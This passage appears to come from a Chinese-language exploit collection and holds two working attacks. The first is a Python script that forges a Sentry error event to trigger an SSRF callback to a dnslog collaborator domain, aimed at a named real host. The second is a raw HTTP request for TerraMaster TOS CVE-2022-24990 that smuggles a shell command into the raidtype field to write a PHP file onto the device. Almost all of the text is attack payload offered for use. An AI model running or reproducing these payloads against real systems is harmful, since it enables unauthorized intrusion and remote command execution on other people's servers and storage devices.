 数据包

```py
import requests
import re

if __name__ == "__main__":
    s = "https://manager.cman.cmcm.com/"
    collaborator = "sentryssrf.60dwbq.dnslog.cn"
    key = re.search('https://(.*)@', s)
    domain = re.search('@(.*)/', s)
    number = re.search('/(.*)', s[8:])
    url = "https://" + domain.group(1) + "/api/" + number.group(1) + "/store/?sentry_key=" + key.group(1) + "&sentry_version=7"
    print(url)
    datas = {"extra":{"component":"redux/actions/index","action":"RegisterDeviceWeb","serialized":{"code":"INVALID_CREDENTIALS","details":[]}},"fingerprint":["3cbf661c7f723b0a5816c16968fd9493","Non-Error exception captured with keys: code, details, message"],"message":"Non-Error exception captured with keys: code, details, message","stacktrace":{"frames":[{"colno":218121,"filename":"http://"+collaborator,"function":"?","lineno":1}]},"exception":{"values":[{"value":"Custom Object","type":"Error"}]},"event_id":"d0513ec5a3544e05aef0d1c7c5b24bae","platform":"javascript","sdk":{"name":"sentry.javascript.browser","packages":[{"name":"npm:@sentry/browser","version":"4.6.4"}],"version":"4.6.4"},"release":"6225dd99","user":{"phash":"996a3f4661e02cb505ae0daf406555e9b914f9d43d635c52cfc7485046862a7f"},"breadcrumbs":[{"timestamp":1554226659.455,"category":"navigation","data":{"from":"/","to":"/login"}}]}
    headers = {'Content-type': 'application/json', 'Origin':'https://z.tochka.com/'}
    rsp = requests.post(url, json=datas, headers=headers)
```

然后输入dnslog

### TerraMaster-Tos

TerraMaster TOS createRaid 远程命令执行漏洞 CVE-2022-24990

```
POST /module/api.php?mobile/createRaid HTTP/1.1
Host:
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Authorization: $1$hq6UR8XW$ti.QT5f9wQQg1PcJFWdub/
Cache-Control: max-age=0
Content-Length: 82
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=f1d33267c0ee0c34e9a348402205e272; tos_visit_time=1647670158
Signature: e856010781d0efd904d57ac40517859c
Timestamp: 1647678138
Upgrade-Insecure-Requests: 1
User-Agent: TNAS

raidtype=%3Becho+%22%3C%3Fphp+phpinfo%28%29%3B%3F%3E%22%3Evuln.php&diskstring=XXXX
```
